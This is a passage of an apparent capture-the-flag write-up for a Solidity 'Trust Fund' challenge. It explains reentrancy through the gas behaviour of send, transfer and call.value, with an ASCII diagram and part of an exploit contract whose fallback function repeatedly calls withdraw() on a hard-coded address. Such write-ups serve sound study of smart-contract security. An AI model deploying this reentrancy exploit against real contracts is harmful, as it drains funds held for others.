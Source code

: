 ~~~solidity
        require(withdrewThisYear==true, "Cannot Return Funds Before Withdraw");
        withdrewThisYear = false;
        numberOfWithdrawls=numberOfWithdrawls.sub(1);
    }
}
~~~

This time we have one of the classic solidity vulnerabilities, reentrancy.
In solidity we have a few different ways to call other contracts:

* `<address>.send(x)`
    Only 2300 Gas is passed for calls to prevent reentrancy. Returns `false` in case of failure.

* `<address>.transfer(x)`
    Only 2300 Gas is passed for calls to prevent reentrancy. In case of failure, it automatically reverts. Equivalent to `require(<address>.send(x));`

* `<address>.call.value(x)()`
    The executed code is given all available gas and is vulnerable to reentrancy.
    We can manually limit amount of gas sent with `<address>.call.value(x).gas(gasAmount)()`

In function `withdraw` we see that the gas limit is not set and that `withdrewThisYear` flag is only being set after call returns.

```text
                Trust Fund     Attacker contract

                +------------+
                |call() +----|-----------+
                |withdraw set|           |
                +------------+           |
                                 +-------v-------+
                      +--------+ | call withdraw |
                      |          +---------------+
                +-----v------+
                |call() +----|-----------+
                |withdraw set|           |
                +------------+           |
                                 +-------v-------+
                      +--------+ | call withdraw |
                      |          +---------------+
                +-----v------+
                |call()      |
                |withdraw set|
                +------------+
```

We can write a contract that will have a fallback function which calls `withdraw()`. This will create a loop, allowing us to withdraw all eth before `withdrewThisYear` gets set.
We just need to pass enough gas in the first call we make to start the loop. For example in my transaction:
```text
Gas Limit: 300000
Gas Used By Transaction: 195406 (65.14%)
Gas Price: 0.000000001 Ether (1 Gwei) 
```
Part of exploit contract:
~~~solidity
    address trustAddr = 0x466802CE70Fba9865AE8Ce9e7a0A480FC84B7917;
    //fallback function
    function() public payable {
        TrustFund trust = TrustFund(trustAddr);
        trust.withdraw();  
    }

    function getTrustMoney() external{
        TrustFund trust = TrustFund(trustAddr);
~~~